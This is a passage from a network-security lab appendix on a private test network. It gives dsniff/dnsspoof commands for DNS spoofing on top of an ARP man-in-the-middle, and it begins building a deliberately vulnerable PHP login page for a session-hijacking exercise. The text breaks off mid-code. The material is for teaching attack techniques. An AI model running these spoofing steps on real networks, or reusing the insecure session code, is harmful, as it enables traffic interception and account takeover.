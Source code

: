 ### **Appendix A: Additional Attack Techniques**

---

#### **A.1: DNS Spoofing and Cache Poisoning**

*Assumes an ARP Spoofing MitM attack is already active against the User node (192.168.10.10).*

##### **Attacker**

```bash
# Install the dsniff suite if not already present
sudo apt-get update
sudo apt-get install -y dsniff

# Create a hosts file to define the redirection rule
echo "192.168.10.11 www.example.com" > dns.hosts

# Launch dnsspoof to intercept and forge DNS responses
# Run this in a new terminal
sudo dnsspoof -i eth0 -f dns.hosts
```

##### **User**

```bash
# Flush the local DNS cache to ensure a new request is made
sudo systemd-resolve --flush-caches

# Attempt to connect to the target domain
ping www.example.com
# Observe the ping request going to the Attacker's IP (192.168.10.11)
```

---

#### **A.2: Session Hijacking via Cookie Theft**

##### **Server**

```bash
# Install PHP-FPM for Nginx
sudo apt-get update
sudo apt-get install -y php-fpm

# Edit the default Nginx site configuration to enable PHP processing
sudo nano /etc/nginx/sites-available/default
# Inside the editor, find and uncomment the 'location ~ \.php$' block.
# It should look similar to this:

location ~ \.php$ {
  include snippets/fastcgi-php.conf;
  fastcgi_pass unix:/var/run/php/php7.2-fpm.sock; # Path may vary
}

# Save and exit the editor.

# Create the vulnerable PHP login page
sudo tee /var/www/html/session.php >/dev/null << 'EOF'
<?php
session_start();
if (isset($_POST['username'])) {
$_SESSION['loggedin'] = true;
$_SESSION['username'] = $_POST['username'];
}
if (isset($_SESSION['loggedin']) && $_SESSION['loggedin'] == true) {
echo "<h1>Welcome, " . $_SESSION['username'] . "! You are logged in.</h1>";
```
